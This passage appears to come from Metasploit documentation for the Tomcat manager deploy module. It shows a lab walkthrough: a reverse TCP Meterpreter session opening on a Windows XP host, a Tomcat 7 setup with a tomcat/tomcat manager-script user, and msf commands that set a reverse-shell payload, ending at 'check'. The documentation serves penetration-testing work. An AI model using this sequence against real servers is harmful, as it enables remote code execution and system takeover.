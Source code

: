     [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Using manually select target "Java Universal"
    [*] Uploading 6071 bytes as scEYoK0.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /scEYoK0/jgj6tWcImjhc7rH2F4TDjCpXG.jsp...
    [*] Undeploying scEYoK0 ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.108:1663) at 2017-01-14 14:30:52 -0500
    
    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    
    ```

### Tomcat 7 (7.0.73)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat7](http://apache.osuosl.org/tomcat/tomcat-7/v7.0.73/bin/apache-tomcat-7.0.73.exe)

The install was default, other than adding a user during install.  No other options were changed.
Of note, while the user was given `manager-gui` permissions, they didn't actually define that role.
So the `/manager/html` page was visible, but deploying from there wasn't possible.

#### text/script Interface Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 7.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

    ```
    <role rolename="manager-script"/>
    <user username="tomcat" password="tomcat" roles="manager-script"/>
    ```

2. Restart the service

3. Exploitation:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy 
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_deploy) > set path /manager/text
    path => /manager/text
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set rport 8087
    rport => 8087
    msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set target 1
    target => 1
    msf exploit(tomcat_mgr_deploy) > check